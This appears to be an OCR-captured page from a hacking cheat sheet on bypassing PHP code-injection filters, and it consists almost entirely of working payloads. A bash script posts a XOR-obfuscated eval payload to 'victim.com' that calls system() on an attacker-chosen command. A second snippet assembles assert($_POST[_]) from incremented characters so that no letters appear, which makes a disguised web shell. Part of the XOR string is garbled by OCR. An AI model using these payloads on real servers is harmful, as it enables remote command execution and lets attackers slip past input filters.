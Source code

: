 XOR Shellcode (inside eval)

#!/bin/bash
​
if [[ -z $1 ]]; then
  echo "USAGE: $0 CMD"
  exit
fi
​
CMD=$1
CODE="\$_='\

lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='

lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"

Perl like

<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
 
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
 
$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);


